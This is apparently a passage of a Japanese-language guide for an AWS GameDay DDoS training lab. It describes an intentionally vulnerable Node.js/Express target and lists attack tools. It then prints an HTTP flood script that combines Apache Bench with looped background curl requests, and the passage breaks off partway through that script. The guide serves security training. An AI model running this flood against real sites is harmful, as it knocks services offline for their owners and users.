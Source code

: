 # 攻撃シミュレーションガイド

このガイドでは、AWS GameDay DDoS環境で実行可能な各種攻撃シミュレーションの詳細な手順と期待される結果を説明します。

## 攻撃シミュレーション環境の概要

### 攻撃対象
- **脆弱なWebアプリケーション**: 意図的に複数の脆弱性を含むNode.js/Expressアプリケーション
- **インフラストラクチャ**: AWS上にデプロイされたALB、EC2、WAF、CloudFrontなど

### 攻撃実行環境
- **攻撃シミュレーションインスタンス**: 各種攻撃ツールがプリインストールされたEC2インスタンス
- **利用可能ツール**: curl, Apache Bench, Python攻撃スクリプト, sqlmap, nmap

## 1. DDoS攻撃シミュレーション

### 1.1 基本的なHTTPフラッド攻撃

#### 目的
大量のHTTPリクエストを送信してサーバーリソースを枯渇させる攻撃をシミュレートします。

#### 実行手順

##### 攻撃インスタンスへの接続
```bash
# 攻撃シミュレーションインスタンスにSSH接続
ssh -i your-key.pem ec2-user@<attack-instance-ip>
```

##### 基本的なHTTPフラッド攻撃
```bash
# シンプルなHTTPフラッド攻撃
./ddos_simulation.sh <target-url> <concurrent-requests> <duration>

# 例: 100並行リクエストを60秒間
./ddos_simulation.sh http://<alb-dns-name> 100 60
```

##### 攻撃スクリプトの内容
```bash
#!/bin/bash
# ddos_simulation.sh

TARGET_URL="$1"
CONCURRENT_REQUESTS="$2"
DURATION="$3"

echo "=== DDoS Attack Simulation ==="
echo "Target: $TARGET_URL"
echo "Concurrent Requests: $CONCURRENT_REQUESTS"
echo "Duration: $DURATION seconds"
echo "Starting attack at $(date)"

# Apache Benchを使用した負荷生成
ab -n $((CONCURRENT_REQUESTS * DURATION)) -c $CONCURRENT_REQUESTS $TARGET_URL &

# curlを使用した継続的リクエスト
for i in $(seq 1 $DURATION); do
    for j in $(seq 1 $CONCURRENT_REQUESTS); do
        curl -s --max-time 5 $TARGET_URL > /dev/null 2>&1 &
    done
    sleep 1
```